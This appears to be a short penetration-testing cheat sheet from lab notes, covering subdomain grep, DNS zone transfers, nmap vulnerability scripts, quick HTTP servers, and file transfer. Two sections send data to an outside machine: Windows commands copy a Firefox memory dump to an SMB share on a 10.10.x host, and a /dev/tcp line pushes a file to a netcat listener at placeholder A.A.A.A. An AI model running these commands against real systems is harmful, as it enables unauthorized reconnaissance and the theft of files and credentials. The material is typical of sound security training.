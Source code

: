 ## Grep
```
grep -o '[^/]*\.megacorpone\.com' index.html | sort -u
```
## SMB 

### SMB file sharing between linux and windows
```
#on linux
/opt/impacket/examples/smbserver.py test . -smb2support -username guest -password guest 

#on windows
net use x: \\10.10.16.112\test  /user:guest guest 
cmd /c "copy firefox.exe_200131_084937.dmp x:\"

#This is for deletion of share 
net use /d \\10.10.16.112\test 

```
## DNS zone transfert
```
host -l <domain name> <dns server address>
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr
dnsrecon -d megacorpone.com -t axfr -n name_server_ip
dnsenum zonetransfer.me
```

## Nmap vulnerability checking
```
nmap --script vuln 10.11.1.10
nmap --script exploit 10.11.1.10
```

## HTTP Server
```
python -m SimpleHTTPServer 7331
python3 -m http.server 7331
php -S 0.0.0.0:8000
ruby -run -e httpd . -p 9000
busybox httpd -f -p 10000
```

## File transfert with nc
```
#Here A.A.A.A is the ip who want to receive the file
cat file_to_transfter > /dev/tcp/A.A.A.A/1111

#on A.A.A.A
nc -nlvp 1111 > file_to_receive
```
